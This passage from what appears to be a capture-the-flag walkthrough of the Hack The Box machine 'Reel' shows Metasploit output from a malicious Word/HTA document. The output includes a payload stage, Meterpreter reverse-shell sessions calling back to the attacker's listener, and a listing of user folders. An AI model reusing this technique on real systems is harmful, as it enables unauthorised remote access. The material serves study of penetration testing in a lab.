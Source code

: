 The document is opened and it successfully triggers the download and execution of the payload:

```a
msf5 exploit(windows/fileformat/office_word_hta) > [*] Sending stage (179779 bytes) to 10.10.10.77
[*] Meterpreter session 1 opened (10.10.14.37:4444 -> 10.10.10.77:57570) at 2019-09-02 14:15:27 +0200

msf5 exploit(windows/fileformat/office_word_hta) > sessions -i 1
[*] Starting interaction with 1...

meterpreter >
[*] Sending stage (179779 bytes) to 10.10.10.77
[*] Meterpreter session 2 opened (10.10.14.37:4444 -> 10.10.10.77:57574) at 2019-09-02 14:15:50 +0200

meterpreter > getuid
Server username: HTB\nico
```

And we are in as Nico, who has the user flag in his desktop. Let's take a look at the other users on the box:

```a
c:\Users>dir
dir
Volume in drive C has no label.
Volume Serial Number is CC8A-33E1

Directory of c:\Users

04/11/2017  00:09    <DIR>          .
04/11/2017  00:09    <DIR>          ..
25/10/2017  21:48    <DIR>          .NET v2.0
25/10/2017  21:48    <DIR>          .NET v2.0 Classic
01/11/2017  22:58    <DIR>          .NET v4.5
01/11/2017  22:58    <DIR>          .NET v4.5 Classic
17/02/2018  00:29    <DIR>          Administrator
05/11/2017  00:05    <DIR>          brad
31/10/2017  00:00    <DIR>          claire
25/10/2017  21:48    <DIR>          Classic .NET AppPool
04/11/2017  00:09    <DIR>          herman
31/10/2017  23:27    <DIR>          julia
29/05/2018  23:37    <DIR>          nico
22/08/2013  16:39    <DIR>          Public
28/10/2017  22:32    <DIR>          SSHD
16/11/2017  23:35    <DIR>          tom
               0 File(s)              0 bytes
              16 Dir(s)  15,768,629,248 bytes free
```

There are quite a few of them, and it turns out most of them aren't even filler material.

---
